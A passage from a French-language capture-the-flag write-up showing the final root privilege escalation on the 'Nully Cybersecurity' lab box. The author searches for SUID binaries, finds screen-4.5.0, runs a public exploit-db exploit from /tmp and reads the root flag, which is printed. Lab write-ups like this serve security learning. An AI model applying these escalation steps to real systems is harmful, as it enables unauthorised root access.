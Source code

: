 ## Privilege escalation final

Une fois de plus on recherche les binaires qui peuvent posséder le SUID bit :

```bash
find / -perm -4000 2>/dev/null
```

Un binaire inhabituel apparaît :

```bash
/usr/bin/screen-4.5.0
```

Après une courte recherche sur **Google** on touve directement **l'exploit** en question : [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)                    
Il nous suffit de copier son contenu dans un fichier puis de l'exécuter :

```bash
nano /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh
```

Et on devient root !

```bash
cat /root/3_flag.txt
```
```
    _  _   _____             _           _ _ 
  _| || |_|  __ \           | |         | | |
 |_  __  _| |__) |___   ___ | |_ ___  __| | |
  _| || |_|  _  // _ \ / _ \| __/ _ \/ _` | |
 |_  __  _| | \ \ (_) | (_) | ||  __/ (_| |_|
   |_||_| |_|  \_\___/ \___/ \__\___|\__,_(_)

   6cb25d4789cdd7fa1624e6356e0d825b                                            

Congratulations on getting the final flag! 
You completed the Nully Cybersecurity CTF.
I will be glad if you leave a feedback. 


Twitter https://twitter.com/laf3r_
Discord laf3r#4754
```


Un immense merci à [@laf3r_](https://twitter.com/@laf3r_) pour avoir créé cette magnifique box. C'est la box la **plus réaliste** que j'ai eu à faire jusqu'à présent. J'ai appris énormément sur comment **pivoter dans un réseau**.